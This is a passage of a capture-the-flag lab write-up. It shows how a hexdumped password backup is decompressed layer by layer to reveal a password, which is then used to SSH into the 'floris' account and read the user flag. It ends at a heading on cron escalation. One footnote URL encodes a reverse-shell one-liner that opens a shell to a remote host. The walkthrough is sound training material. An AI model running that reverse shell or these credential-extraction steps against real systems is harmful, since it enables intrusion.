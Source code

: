 ### Work with hexdump in fast shared memory

Note: ippsec uses /dev/shm in his walkthrough. You might not want to do this in real life. [^4]

	cp password_backup /dev/shm
	cd /dev/shm

	xxd -r password_backup > 1
	
```bash
BZh91AY&SY   H   A  P)ava :4N   nT# @% ` ▒
                                            z @ i 4hdi   9 h Q dh▒   4i 5n▒ ׌  Jh  *  }y. <~ x > sVT zH ߢ 1 V 3 `F   "  n 
     ۇ7j:X dR  k      )p 7;    9  P▒C Y P        HB  *    G   U@r rE8P    H
```
	
	file 1
	bzcat 1 > 2
	
`l[password r BZh91AY&SY6Ǎ    @@!PtD   t"d hhOPIS@  6  8ET>P@ #I bՃ|3  x         (*N & H  k1  x  " {  ೱ  ]  B@ 6 m  `
	
```bash
file 2
zcat 2 > 3
```

`BZh91AY&SY6Ǎ    @@!PtD   t"d hhOPIS@  6  8ET>P@ #I bՃ|3  x         (*N & H  k1  x  " {  ೱ  ]  B@ 6`

	file 3
	bzcat 3 > 4


`password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll`

	file 4
	tar -xf 4
	cat password.txt
	
`5d<wdCbdZu)|hChXll`

## Privilege Escalation

### SSH into floris account

```
ssh floris@10.129.171.174
5d<wdCbdZu)|hChXll
```

	cat user.txt
	65dd1df0713b40d88ead98cf11b8530b

### Explore file permission / cron vulnerability

There are various ways to observe the file permission vulnerability's relationship to cron:


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency